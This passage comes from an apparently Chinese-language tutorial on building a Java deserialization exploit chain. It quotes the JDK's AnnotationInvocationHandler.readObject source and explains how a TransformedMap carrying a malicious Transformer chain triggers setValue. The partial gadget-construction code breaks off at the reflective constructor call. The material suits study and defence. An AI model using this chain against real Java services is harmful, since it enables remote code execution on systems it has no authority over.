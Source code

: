 ```java title="sun.reflect.annotation.AnnotationInvocationHandler" linenums="1"

        // If there are annotation members without values, that
        // situation is handled by the invoke method.
        for (Map.Entry<String, Object> memberValue : memberValues.entrySet()) {
            String name = memberValue.getKey();
            Class<?> memberType = memberTypes.get(name);
            if (memberType != null) {  // i.e. member still exists
                Object value = memberValue.getValue();
                if (!(memberType.isInstance(value) ||
                      value instanceof ExceptionProxy)) {
                    memberValue.setValue(
                        new AnnotationTypeMismatchExceptionProxy(
                            value.getClass() + "[" + value + "]").setMember(
                                annotationType.members().get(name)));
                }
            }
        }
    }
}
```

其中第11行 `s.defaultReadObject();` 反序列化生成 `memberValues` 对象，即我们传入的 `TransformMap`。需要注意的是如果我们想要进入到`memberValue.setValue`这个逻辑需要满足以下两个要求：

1. `sun.reflect.annotation.AnnotationInvocationHandler` 构造函数的第一个参数必须是 `Annotation`的子类，且其中必须含有至少一个方法，假设方法名是X
2. 被`TransformedMap`修饰的Map中必须有一个键名为X的元素


因为`sun.reflect.annotation.AnnotationInvocationHandler`是一个内部API专用的类，我们需要通过反射的方式创建出`AnnotationInvocationHandler`对象：

???+ example "创建AnnotationInvocationHandler对象"

    ```java
    // 创建Map对象
    Map map = new HashMap();

    // map的key名称必须对应创建AnnotationInvocationHandler时使用的注解方法名，比如创建
    // AnnotationInvocationHandler时传入的注解是java.lang.annotation.Target，那么map
    // 的key必须是@Target注解中的方法名，即：value，否则在反序列化AnnotationInvocationHandler
    // 类调用其自身实现的readObject方法时无法调用setValue方法。
    map.put("value", "123");

    // 使用TransformedMap创建一个含有恶意调用链的Transformer类的Map对象
    Map transformedMap = TransformedMap.decorate(map, null, transformedChain);

    // 获取AnnotationInvocationHandler类对象
    Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");

    // 获取AnnotationInvocationHandler类的构造方法
    Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);

    // 设置构造方法的访问权限
    constructor.setAccessible(true);
